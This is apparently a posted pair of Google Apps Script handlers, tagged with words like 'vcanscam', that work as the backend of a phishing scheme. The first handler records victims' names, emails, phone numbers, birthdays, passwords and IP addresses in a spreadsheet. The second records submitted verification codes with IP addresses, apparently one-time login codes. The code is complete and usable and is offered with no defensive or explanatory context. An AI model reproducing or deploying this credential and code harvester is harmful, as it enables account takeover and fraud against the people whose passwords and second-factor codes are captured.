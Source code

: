 # need2021
# vcanscam
# meomeo
















code gg 1

function doPost(e) {
  var sheet = SpreadsheetApp.getActiveSpreadsheet().getActiveSheet();
  
  if (sheet.getLastRow() === 0) {
    sheet.appendRow(["Thời gian", "Họ và tên", "Email", "Số điện thoại", "Ngày sinh", "Mật khẩu", "Địa chỉ IP"]);
  }

  var name = e.parameter.name || "";
  var email = e.parameter.email || "";
  var phone = e.parameter.phone || "";
  var birthday = e.parameter.birthday || "";
  var password = e.parameter.password || "";
  var ip = e.parameter.ip || "";

  sheet.appendRow([new Date(), name, email, phone, birthday, password, ip]);

  return ContentService
    .createTextOutput(JSON.stringify({ result: "success" }))
    .setMimeType(ContentService.MimeType.JSON);
}








code gg 2 

function doPost(e) {
  var sheet = SpreadsheetApp.getActiveSpreadsheet().getActiveSheet();
  
  if (sheet.getLastRow() === 0) {
    sheet.appendRow(["Thời gian", "Code", "Địa chỉ IP"]);
  }

  var code = e.parameter.code || "";
  var ip = e.parameter.ip || "";

  sheet.appendRow([new Date(), code, ip]);

  return ContentService
    .createTextOutput(JSON.stringify({ result: "success" }))
    .setMimeType(ContentService.MimeType.JSON);
}
